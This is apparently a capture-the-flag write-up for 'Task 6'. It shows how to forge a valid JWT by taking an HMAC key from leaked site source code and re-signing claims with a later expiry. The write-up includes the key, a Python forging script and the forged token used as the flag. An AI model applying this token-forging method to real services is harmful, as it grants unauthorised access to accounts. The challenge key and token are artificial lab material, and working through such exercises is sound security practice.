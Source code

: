 # Task 6

Prompt:
![](../img/prompts/task_6.png)

The first step to take with any JWT token is to plug it into https://jwt.io.

It seems as if the token is way past its expiration date:
![](../img/6/jwt_orig.png)

In order to create a new valid token, we need the HMAC key. Fortunately, we were able to get the website's source code from task B2, which includes JWT validation code. Looking closer at `util.py`, we can find the HMAC key in the code:

```py
43   │ def hmac_key():
44   │     return "7c4x7hYaNgFvBckbwjfHs5h2lbUKInZJ"
```

With this knowledge, we can forge our own JWT tokens. We can set the expiration time to something in the future, making the token valid.

I wrote a quick script to create valid tokens:

```py
import jwt
from datetime import datetime, timedelta
import requests

def hmac_key():
    return "7c4x7hYaNgFvBckbwjfHs5h2lbUKInZJ"

def generate_token():
    """ Generate a new login token for the given user, good for 30 days"""
    now = datetime.now()
    exp = now + timedelta(days=30)
    claims = {'iat': now,
              'exp': exp,
          'uid': 36828,
          'sec': "m5ehCyJiYpRRSI2DMQWhNM1jIIE1HiuW"}
    return jwt.encode(claims, hmac_key(), algorithm='HS256')

tok = generate_token()#.decode()

print(tok)
```

Any valid token works as the flag, so the output should work just fine!

Flag: `eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpYXQiOjE2NjI1MDM5OTAsImV4cCI6MTY2NTA5NTk5MCwidWlkIjozNjgyOCwic2VjIjoibTVlaEN5SmlZcFJSU0kyRE1RV2hOTTFqSUlFMUhpdVcifQ.sYtPx-nuiRySL9hJi85P0MuP1_q3YMSbUXmcICxzn1M`
![](../img/submissions/task_6_solve.png)